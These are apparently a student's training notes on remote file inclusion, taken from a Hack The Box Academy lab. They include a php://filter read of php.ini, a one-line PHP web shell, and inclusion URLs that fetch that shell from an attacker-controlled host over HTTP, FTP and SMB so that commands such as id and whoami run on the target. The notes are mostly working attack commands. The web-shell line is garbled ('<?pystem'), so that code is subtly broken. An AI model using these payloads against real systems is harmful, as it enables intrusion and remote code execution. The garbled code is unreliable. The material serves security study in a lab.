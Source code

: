 
the goal:

```bash
http://<SERVER_IP>:<PORT>/index.php?language=http://<OUR_IP>:<LISTENING_PORT>/shell.php&cmd=id
```

|**Function**|**Read Content**|**Execute**|**Remote URL**|
|---|:-:|:-:|:-:|
|**PHP**||||
|`include()`/`include_once()`|✅|✅|✅|
|`file_get_contents()`|✅|❌|✅|
|**Java**||||
|`import`|✅|✅|✅|
|**.NET**||||
|`@Html.RemotePartial()`|✅|❌|✅|
|`include`|✅|✅|✅|
## Verify RFI
`allow_url_include`
1- PHP configuration file found at (`/etc/php/X.Y/apache2/php.ini`) for Apache
2- at (`/etc/php/X.Y/fpm/php.ini`) for Nginx

```bash
AhmaDb0x@htb[/htb]$ curl "http://94.237.58.78:55981/index.php?language=php://filter/read=convert.base64-encode/resource=../../../../etc/php/7.4/apache2/php.ini"
```

```bash
AhmaDb0x@htb[/htb]$ echo 'W1BIUF0KCjs7Ozs7Ozs7O...SNIP...4KO2ZmaS5wcmVsb2FkPQo=' | base64 -d | grep allow_url_include
```

even if this setting is enabled, the vulnerable function may not allow remote URL inclusion to begin with. So, a more reliable way to determine whether an LFI vulnerability is also vulnerable to RFI is to `try and include a URL`, and see if we can get its content. At first, `we should always start by trying to include a local URL`

let's use (`http://127.0.0.1:80/index.php`)
```bash
http://<SERVER_IP>:<PORT>/index.php?language=http://127.0.0.1:80/index.php
```

![Shipping containers and cranes at a port with user and PHP error information displayed.](https://academy.hackthebox.com/storage/modules/23/lfi_local_url_include.jpg)
override.

## DoS:
**Note:** It may not be ideal to include the vulnerable page itself (i.e. index.php), as this may cause a recursive inclusion loop and cause a DoS to the back-end server.



## Remote Code Execution with RFI
```bash
AhmaDb0x@htb[/htb]$ echo '<?pystem($_GET["cmd"]); ?>' > shell.php
```
```bash
sudo python3 -m http.server 9999
```

```bash
http://<SERVER_IP>:<PORT>/index.php?language=http://10.10.14.60:9999/shell.php&cmd=id
```

## FTP
```bash
AhmaDb0x@htb[/htb]$ sudo python -m pyftpdlib -p 21
```

```bash
http://<SERVER_IP>:<PORT>/index.php?language=ftp://<OUR_IP>/shell.php&cmd=id
```

```bash
AhmaDb0x@htb[/htb]$ curl 'http://<SERVER_IP>:<PORT>/index.php?language=ftp://user:pass@localhost/shell.php&cmd=id'
```


## SMB
vulnerable web application is hosted on a Windows server (which we can tell from the server version in the HTTP response headers), then we do not need the `allow_url_include` setting to be enabled for RFI exploitation

Windows treats files on remote SMB servers as normal files, which can be referenced directly with a UNC path.

```shell-session
AhmaDb0x@htb[/htb]$ impacket-smbserver -smb2support share $(pwd)
```

```bash
http://<SERVER_IP>:<PORT>/index.php?language=\\<OUR_IP>\share\shell.php&cmd=whoami
```
`more likely to work if we were on the same network`, as accessing remote SMB servers over the internet may be disabled by default, depending on the Windows server configurations.


---


